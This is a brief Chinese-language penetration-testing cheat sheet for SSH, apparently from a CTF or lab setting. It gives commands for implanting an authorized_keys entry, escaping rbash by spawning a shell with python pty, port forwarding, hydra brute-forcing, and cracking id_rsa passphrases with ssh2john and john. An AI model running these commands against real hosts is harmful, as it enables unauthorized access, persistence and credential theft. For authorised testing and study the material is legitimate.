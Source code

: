 # 22(ssh)

1. 登陆格式

```bash
ssh -i [id_rsa] -p [port] [user]@[ip] "[command]"
```

1. ssh写入

```bash
ssh-keygen  ---全部回车
cd /root/.ssh 
cat id_rsa.pub   ---里面的值复制
在mnt目录下创建：mkdir .ssh   
cd .ssh  进去后写入：
echo '【id-rsa】' > authorized_keys
```

1. 简单的rbash逃逸

```bash
ssh mindy@192.168.247.167 "export TERM=xterm; python -c 'import pty; pty.spawn(\"/bin/sh\")'"
以及
先知7642
```

1. 端口转发

```bash
ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
把目标的8443隧道到本地8443
```

1. ssh爆破

```bash
hydra ssh://192.168.2.141 -L user.txt -p "xxx"
```

1. 短密钥

```bash
ssh-keygen -t ed25519 -f id_rsaed25519
```

1. 爆破id\_rsa

```bash
python /usr/share/john/ssh2john.py id_rsa > 1.txt
john --wordlist=/usr/share/wordlists/rockyou.txt 1.txt

转变id_rsa
openssl rsa -in id_rsa -out id1_rsa  
```
